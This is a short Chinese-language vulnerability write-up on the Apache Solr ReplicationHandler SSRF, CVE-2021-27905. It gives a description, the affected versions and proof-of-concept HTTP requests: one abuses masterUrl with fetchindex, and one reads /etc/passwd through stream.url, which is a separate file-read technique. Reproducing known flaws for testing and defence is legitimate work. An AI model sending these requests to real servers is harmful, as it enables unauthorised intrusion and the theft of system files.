 # Apache Solr Replication handler SSRF CVE-2021-27905

## 漏洞描述

Apache Solr是一个开源搜索服务引擎，Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。漏洞产生在 ReplicationHandler 中的 masterUrl 参数（ leaderUrl 参数）可指派另一个 Solr 核心上的 ReplicationHandler 讲索引数据复制到本地核心上。成功利用此漏洞可造成服务端请求伪造漏洞。

参考链接：

* https://nvd.nist.gov/vuln/detail/CVE-2021-27905

## 漏洞影响

```
Apache Solr 7.0.0 - 7.7.3 
Apache Solr 8.0.0 - 8.8.1
```

### 漏洞复现

poc：

```
GET /solr/test/replication?command=fetchindex&masterUrl=http://127.0.0.1/&wt=json&httpBasicAuthUser=&httpBasicAuthPassword= HTTP/1.1
HOST:target
....
```

```
GET http://xxxxx/solr/xxxx/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
HOST:target
...
```

